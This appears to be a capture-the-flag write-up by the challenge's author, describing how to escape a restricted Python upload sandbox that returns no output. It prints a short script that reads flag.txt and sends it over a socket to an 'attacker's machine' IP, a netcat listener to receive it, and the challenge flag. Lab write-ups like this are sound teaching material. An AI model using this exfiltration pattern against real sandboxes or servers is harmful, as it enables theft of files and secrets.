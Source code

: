 ```yaml
---
title: "Escaping a Python Network Jail"
eventName: "Darkest Hour CTF 2025"
category: "Network"
difficulty: "Medium"
points: 500
---
```


# Challenge 3: Escaping a Python Network Jail

For the third challenge, I decided to create a **fun Python jail escape**. Players were provided with the **source code** of the challenge, which allowed them to **upload a Python file** to /upload. Once uploaded, the server would execute the script.

![Python Upload Interface](/assets/darkest/pyupload.webp)

## The Catch

There was a significant restriction: **the server wouldn’t return any output**. It would only indicate whether the script executed successfully or not, making traditional debugging difficult.

```python
script_thread = threading.Thread(target=run_script, args=(full_script, safe_globals))  
script_thread.start()  

script_thread.join(timeout=5)  

if script_thread.is_alive():  
    return "Error: Script execution exceeded the time limit of 5 seconds"  

os.remove(filepath)  
return "Script executed successfully and deleted!"  

except Exception as e:  
    return f"Error: {str(e)}"
```

At first glance, players could spend **hours analyzing all the disallowed functions** and restrictions, but the key to solving this challenge was spotting a **crucial clue** in the source code: **The only allowed module was** socket

```python
safe_globals = {  
    '__builtins__': {  
        'print': print,  
        'len': len,  
        'str': str,  
        'int': int,  
        'float': float,  
        'open': secure_open,  
        'socket': socket,  
    }  
}
```

This meant we had a way to communicate externally. But what could we do with it?

## Failed Attempt: Reverse Shell?

One might instinctively think of a **reverse shell**, but that approach was blocked because:

- **Importing additional modules was forbidden**
- **Critical modules like os and subprocess were unavailable**

So, no shell access — **but there was another way!**

## Key Hint: The Safe open() Function

```python
def secure_open(filename, mode="r", *args, **kwargs):  
    if filename != "flag.txt" or mode != "r":  
        raise PermissionError("Access to this file is restricted!")  
    return open(filename, mode, *args, **kwargs)
```

The challenge provided a function that **allowed opening only** flag.txt **in read mode**. This was a **huge hint**—since we could read the flag, we just needed a way to send it out.

And guess what? We had **socket programming** at our disposal!

## Exfiltrating the Flag Using a Socket

Since we couldn’t print the flag or return its contents directly, we could **send it over the network** to our own machine:

```python
with open("flag.txt", "r") as f:  
    flag = f.read().strip()  
ip = "192.168.153.211"  # Attacker's machine  
port = 4444  
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:  
    s.connect((ip, port))  
    s.sendall(flag.encode())
```

## Receiving the Flag

On our own machine, we simply ran:

```bash
nc -lvp 4444
```

As soon as the script executed, **bingo!** The flag was sent over the network straight to us: Securinets{H0pefully_Y0u_d1dnt_destr0y_My_System}
